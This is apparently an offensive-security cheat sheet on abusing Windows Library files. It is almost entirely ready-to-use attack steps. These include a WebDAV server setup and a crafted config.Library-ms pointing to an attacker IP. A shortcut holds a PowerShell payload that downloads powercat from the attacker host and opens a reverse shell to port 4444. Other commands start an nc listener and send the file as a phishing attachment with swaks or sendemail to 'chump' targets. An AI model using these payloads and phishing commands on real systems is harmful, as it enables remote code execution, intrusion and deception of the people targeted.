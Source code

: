 ### Abusing Library Files

```bash
mkdir /home/kali/webdav
```
```bash
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

Save the file below as `config.Library-ms`, make sure to sub out the URL towards the bottom for our IP:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.12.34</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

On a Windows machine right-click on the Desktop icon and select New -> Shortcut, when prompted to enter a path enter the following payload:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.12.34:8000/powercat.ps1'); powercat -c 192.168.12.34 -p 4444 -e powershell"
```
Save the link, and transfer it to our Kali machine, then into the webdav directory.

Make `powercat` available and start a listener:
```bash
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
python -m http.server 80
```
```bash
nc -nlvp 4444
```
Now distribute the library file that points to our IP (assuming we have crafted a suitably evil message body and saved it as `body.txt`):
```bash
sudo swaks -t <chump1@targetDomain.com> -t <chump2@targetDomain.com> --from <chump3@targetDomain.com> --attach @config.Library-ms --server <mail server IP> --body @body.txt --header "Subject: Super Fun Script" --suppress-data -ap
```
Nb. for the command above to succeed we'll need the domain creds of `chump3`.

Alternatively `sendemail` is also a thing:
```bash
sendemail -t jobs@cowmotors-int.com -f Mithrandir@cowmotors-int.com -s 192.168.232.201 -m "cv" -u "cv" -a payload.doc -v
```
